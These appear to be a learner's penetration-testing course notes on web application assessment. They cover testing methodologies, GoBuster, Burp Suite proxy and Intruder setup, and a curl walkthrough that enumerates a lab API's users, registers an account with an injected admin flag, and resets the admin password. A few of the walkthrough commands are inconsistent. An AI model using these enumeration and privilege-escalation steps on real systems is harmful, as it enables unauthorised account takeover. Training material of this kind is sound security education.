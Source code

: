 This learning module contains:

1.  Web application assessment methodology;
2.  Web application enumeration; and
3.  Cross-site scripting.

## Web application assessment methodology
This learning module contains;

1.  Understand web application security testing requirements;
2.  Learn different types of methodologies of web application testing; and 
3. Learn about the OWASP top 10 and most common web vulnerabilities.

There are generally speaking 3 different types of web application testing methodologies: white-box; black-box and grey-box.

With white-box testing, the customer (application owner) provides access to the application, source code, and infrastructure.  The pen test focuses on application logic and source code review.

Black-box review is essentially the opposite, where  the pen tester is not provided any details at all.  This is how bug bounty programs operate.

Grey-box is somewhere in the middle, with some details provided.
## Web application assessment tools
We will use several tools in web application enumeration, including NMAP, Wappalyzer, GoBuster and BurpSuite proxy.
### NMAP
NMAP stand scanning techniques can be used to identify OS, application services and versions as well as vulnerabilities.
### Wappalyzer
Wappalyzer is a free and paid product which is used to identify the tech stack of any web application.
### GoBuster
GoBuster is a directory brute-forcing application that is used to identify the directory structure of web applications.  It is frequently used with 'word-lists'.

~~~ bash
# GoBuster brute-forcing with word-lists.
# the dir parameter is for searching for directories

gobuster dir -u <IP> -w /usr/share/wordlists/dirb/common.txt 

~~~
### Burp-suite
Burp-suite is a GUI based integrated platform for web application security testing.  There is a community based version that is used for manual testing and the commercial version has considerably more functions.

Burp-suite requires that a proxy is configured to capture and modify if required.  There is a built-in proxy and it can be configured with 3rd party plugins like [Foxy Proxy](https://getfoxyproxy.com).  

The steps to configure the internal proxy server are as follows:

1.  Select the 'proxy' tab;
2.  Disable the 'intercept' option;
3.  Select the 'proxy settings' option;
4.  By default burp suite listens on localhost:8080;
5.  Firefox needs to be configured.  Add 'about:preference#general'.  At the bottom of the  page select the 'settings' option.
6.  Select the 'manual' and the 'also use this proxy for https';
7.  Set the 'HTTP' proxy to '127.0.0.1:8080'; and
8.  Select 'Ok';

With the proxy configured the http data will be captured by Burp-suite.  We can now see both the request and response details.
#### Intruder
The 'Intruder' tool within Burpe-suite is used to automate a variety of attack methods.  It can be used to undertake a simple brute-force attack.

Configure the proxy server as usual so that it captures web traffic as normal.  When a password is submitted via 'Wordpress' site a POST request is used.  From within the the http-history tab and right click on the post item and 'send to intruder'.

Intruder can then be used to manipulate the 'password' component of the POST request.
## Web application enumeration
### Learning objectives
1.  Learn how to debug web applications;
2. Understand how to enumerate and inspect headers, cookies and source code; and
3. Learn how to conduct API testing methodologies.

It is important to utilise passive enumeration techniques initially to discover the implemented technology stack.  Generally, this consists of:
1.  Host Operating System (OS);
2. Web server software;
3. Database software; and
4. Front and back-end programming.

It is worthwhile to note that many web applications are implemented using off the shelf frameworks and bundles.  Common examples of this include:
1.  Flask;
2. Django;
3. Wordpress; and
4. Drupal.

It is important to identify the components of a web application before attempting to blindly exploit it.  Many web application vulnerabilities are technology agnostic, however, others need to be carefully configured for a specific target.

### Inspect HTTP response headers and site maps
The robots.txt contains the pages which bots can and cannot access.  They are relevant for search engines.  Robots.txt includes both allow and disallow directives, which instructs web crawlers and search engines which pages should and shouldn't indexed.  This can be ignored.  

~~~ bash
# this obtains the robots.txt for google.com

curl https://google.com/robots.txt

~~~

### Enumerating and abusing APIs
API are essentially access points to functions and data, which are built and deployed for machine to machine integration.

~~~ bash
# api are accessed with the following structure

https://api_name/v1/

~~~

Conventional tools like 'gobuster' can be used to identify API endpoints, which includes a 'pattern' function (-p). 

~~~ bash
# using the Gobuster pattern function
# pattern.txt contains the structure of the pattern we are going to bruteforce.
# {GOBUSTER}/v1
# {GOBUSTER}/v2

gobuster dir -u <IP:PORT> -w /usr/share/wordlists/dirb/big.txt -p pattern.txt

# this returns results that follow this function

/books/v1
/users/v1

~~~

We can inspect the API by using the curl function:

~~~ bash

# the '-i' parameter includes the http headers in the response
curl -i https://<IP:PORT>/users/v1

# this can return a list of users which can be brute-forced
# it returns several usernames including 'admin'

# with this additional username information known, we can try to breute-force the username component of the api

gobuster dir -u https://<IP:PORT>/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt

# this returns additional api information, including 'email' and 'password'

curl -i https://<IP:PORT>/users/v1/admin/password

# this results in a '405 method not allowed'.  This suggests that the endpoint exists.  By default, the curl command uses the 'GET' method (which is not allowed).  
~~~

We can use a different HTTP method to see if we can authenticate the known 'admin' username.

~~~ bash
# use the HTTP POST method to try to authenticate a known 'admin' unsername and a test 'password' to see what the response is

curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type:application/json' http://192.168.50.16:5002/users/v1/login

# -d uses the post method to pass the json login data
# -H HTTP header to specify that 'application/json' is being passed to the api
# the ip address, port and end point

# the response confirms that the json format, username and api are available and that the password is not correct.  We will now try to create a new users using the same api with a different endpoint (register)

curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json' <IP:PORT>/users/v1/register

# this api call responds with an error message indicating that the register process requires an email to be provided

curl -d '{"password":"fake", "email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://<IP:PORT>/users/v1/register

# this call successfully registers an account and instructs the new user to login to receive an 'authentication token'.  We can now try to login with the new credentials

curl -d '{"password":"lab", "username":"offsec}' -H 'Content-Type: application/json' <IP:PORT>/users/v1/login

# an authenticate token is provided.  We can now check that we have administratve access by changing the admin password

curl \ 'http://<IP:PORT>/users/v1/admin/password' \ -H 'Content-Type: application/json' \ -H 'Authorization: OAuth <token>' \ -d '{"password": "pwned"}'

# the authorization token is passed within the 'Authorization' header along with the new password

~~~

This method (curl) is useful for single apis, however, it doesn't scale efficiently.  We can replicate this in 'Burp-Suite'. 
## Tags
#enumeration
#nmap 
#burpsuite
#Wappalyzer
#gobuster
#foxyproxy
#firefoxproxy
#intruder





